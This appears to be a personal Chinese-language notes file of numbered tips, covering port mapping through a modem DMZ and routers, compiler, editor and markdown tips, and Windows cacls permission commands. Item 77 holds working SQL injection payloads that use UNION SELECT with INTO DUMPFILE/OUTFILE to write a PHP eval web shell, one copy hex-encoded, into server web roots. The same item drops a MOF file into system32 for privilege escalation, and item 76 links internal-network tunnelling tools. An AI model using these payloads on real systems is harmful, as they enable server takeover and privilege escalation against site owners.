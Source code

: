     

75.1>dmz+光猫+有线路由+无线路由下的端口映射:
   2>拓扑图大致为:
          光猫(192.168.1.1)
           ｜
        有线路由
           ｜        
        无线路由(192.168.3.1)
           ｜        
          内网(192.168.3.x)
   3>其中光猫含有路由器功能,此处有线路由相当于集线器功能
   4>如果在光猫上设置dmz为无线路由在光猫所在网段的ip,也即192.168.1.4(此ip可在无线路由的wan口所在ip值看到,
        此ip值由光猫上的dhcp随机分配)
   5>wan口和lan口区别:>每个路由器有wan口和lan口,光猫拨号,其wan口ip为internet接口所在ip,一般为动态获取的一个值,其lan口ip为192.168.1.1(此ip可在光猫上人工设置成任意192.168.x.1形式)
                  　>无线路由的wan口ip为光猫所在局域网的ip段中的ip:192.168.1.4,lan口ip为192.168.3.1(此ip可在无线路由器上人工设置成任意192.168.x.1形式)
   6>不加dmz时的内网端口映射:光猫上设置nat:将外部数据转到192.168.1.4及对应端口,无线路由器上设置nat:将外部数据转
     到需要端口映射的内网机器的ip(eg.192.168.3.11)及对应端口
   7>加dmz时的内网端口映射:在光猫上设置dmz为无线路由在光猫所在网段的ip,也即192.168.1.4,在无线路由器上设置nat:将
        外部数据转到需要端口映射的内网机器的ip(eg.192.168.3.11)及对应端口(其中dmz相当于转发光猫上的所有端口数据到
     无线路由器上,外部访问光猫公网ip即相当于访问无线路由)

76.内网渗透 代理&转发 http://www.heysec.org/archives/115
	当reGeory无法成功时,reGeorg替代工具
	https://github.com/nccgroup/ABPTTS

77.union select 1,2,3,4,load_file(0x433a5c666c76706c617965725c6e756c6c6576742e6d6f66),6 into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof'-- - (路径中用/不用\)
   写一句话是select 1,2,3,4,<?php @eval($_POST[cmd]);?>,6 into outfile 'c:/ksla/lsd/'-- -　　　　
   (outfile=dumpfile,but if not,try dumpfile instead of outfile in the first sentence)
   mysql中phpmyadmin提权:http://blog.sina.com.cn/s/blog_b8ab0ac20101sbwe.html
   udf:http://www.cnblogs.com/qing123/p/4676808.html
   outfile和dumpfile区别:http://www.dedecms.com/knowledge/data-base/mysql/2012/0819/7569.html
   在phpmyadmin中
   windows系统在phpmyadmin的web后台写文件时写成into dumpfile 'c:\www\some\1.php'无法写入时,改成into dumpfie 'c:\\www\\some\\1.php'
   SELECT HEX(LOAD_FILE(0x2f70687073747564792f7777772f72654475682e706870))INTO DUMPFILE　'/phpstudy/www/121.txt'    (/phpstudy/www/reDuh.php)  本地(linux)取hex值
   select unhex('...') into dumpfile 'c:/inetpub/wwwroot/memberinfo/....php';-- -成功,这样不会被转义,如果是outfile会被转义　远程dumpfile出去 (对方windows)
   同理写shell:bs/news.php?id=3 and 1=2 union select null,null,null,null,unhex('3C3F70687020406576616C28245F504F53545B27746F6D275D293B3F3E') into dumpfile 'C:/AAWServer/www/php/k82.php';

78.有时候visual studio2015或其它版本的ide编译出来的exe文件无法在其它机器上运行(release版本也不可以的时候)可以直接试试g++/gcc -o out.exe file.cpp等命令自行编译.

79.ctrl+shift+p==>install==>package syning,backup sublime settings==>https://github.com/csch0/SublimeText-Package-Syncing

80.http://www.tuicool.com/articles/zIJrEjn GitHub上README写法暨markdown语法解读

81.windows下cacls查看权限和设置权限http://41080138.blog.51cto.com/2587513/951403
    cacls h:/temp /t /e /c /g wzj9999:f
